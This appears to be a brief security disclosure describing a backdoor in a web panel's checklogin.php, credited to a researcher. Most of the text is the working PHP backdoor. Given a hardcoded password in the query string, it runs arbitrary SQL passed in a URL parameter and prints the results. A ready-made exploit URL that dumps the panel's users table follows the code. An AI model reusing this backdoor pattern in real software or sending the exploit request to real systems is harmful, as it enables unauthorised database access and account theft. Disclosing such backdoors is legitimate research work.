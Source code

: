 
Type: Backdoor

Author: [MisterCh0c](https://twitter.com/MisterCh0c)

There is a backdoor (A.K.A debug function) in the checklogin.php page:

```
/* debug funcs */
if($_GET["pass"] === '20Pru9BOrbwXOlT0lBafb98'){
    switch($_GET["func"]){
        case 'execute':
        {
            $db = GetMysqlConnection();
            $db->query($_GET['code']);
            WriteLog($_GET["func"], 'Success', $_GET['code']);
            break;
        }
        case 'select':
        {
            $db = GetMysqlConnection();
            $resultbd = $db->query($_GET['code']);
            WriteLog($_GET["func"], 'Success', $_GET['code']);
            echo '<br>';
            while ($row = $resultbd->fetch_assoc()) {
                print_r($row);
                echo '<br>';
            }
            break;
        }
    }
}

To exploit it and extract panel accounts:
http://panel.address/checklogin.php?pass=20Pru9BOrbwXOlT0lBafb98&func=select&code=select*from%20users;
```

